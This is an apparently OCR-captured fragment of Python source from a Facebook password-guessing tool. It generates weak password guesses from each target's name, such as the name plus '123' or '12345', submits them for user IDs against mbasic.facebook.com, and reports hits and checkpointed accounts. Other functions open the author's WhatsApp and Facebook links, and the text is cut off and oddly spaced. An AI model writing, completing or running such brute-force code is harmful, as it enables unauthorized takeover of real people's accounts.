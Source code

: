                              pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"] 
  
                         else: 
  
                             pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"] 
  
                         ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com") 
  
                     except: 
  
                         pass 
  
             hasil(ok,cp) 
  
         else: 
  
             print('\n Select Valid One') 
  
             self.__pler__() 
  
  
  
 def dupcutter(): 
  
         os.system("xdg-open https://wa.me/+923047274393") 
  
         time.sleep(3) 
  
         R() 
  
 def yt(): 
  
         logo() 
  
         os.system("xdg-open https://www.facebook.com/100029833089326") 
  
         time.sleep(3) 
  
         R() 
  
  
  
 class load: 
  
     def __init__(self): 
  
         _ = '' 
  
         __ = int('30') 
  
         ___ = int('0') 
  
         __ -= 1 
  
         ___ += 1 
  
         for t in range(int("1")): 
  
             print('\r Wait Bro Loading ...') 
  
             sys.stdout.flush() 
  
             time.sleep(0.0) 
  
         print('\n') 
  
 main_apv()
